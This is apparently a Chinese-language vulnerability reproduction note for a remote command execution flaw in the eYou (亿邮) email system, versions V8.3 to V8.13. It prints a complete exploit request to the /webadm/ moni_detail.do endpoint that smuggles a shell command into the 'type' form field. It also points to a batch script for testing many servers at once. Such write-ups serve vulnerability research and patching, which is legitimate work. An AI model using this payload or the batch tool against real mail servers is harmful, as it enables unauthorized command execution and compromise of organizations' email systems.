 # 0x00 软件介绍
北京亿中邮信息技术有限公司（亿邮）：提供邮件系统解决方案  
官网：http://www.eyou.net/index.html

# 0x01 复现环境
复现环境：本地环境  
复现版本：None  
环境搭建：  
无

# 0x02 利用条件
无

# 0x03 影响版本
漏洞影响的产品版本为亿邮电子邮件系统V8.3-V8.13的部分二次开发版本。  
亿邮电子邮件系统信创版本及V8.13以后版本不受影响。

# 0x04 漏洞复现
burp中发送如下请求
```
POST /webadm/?q=moni_detail.do&action=gragh HTTP/1.1
Host: mail.xxx.com.cn
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
Content-Length: 12

type='|id||'
```
返回如下图  
![image](./pic/0.png)

# 0x05 批量脚本
EYouMailRCE-Batch-Detect.py，具体用法见：python3 EYouMailRCE-Batch-Detect.py -h  
效果如下  
![image](./pic/1.png)

# 0x06 参考链接
[https://github.com/Tas9er/EYouMailRCE](https://github.com/Tas9er/EYouMailRCE)反编译后参考编写
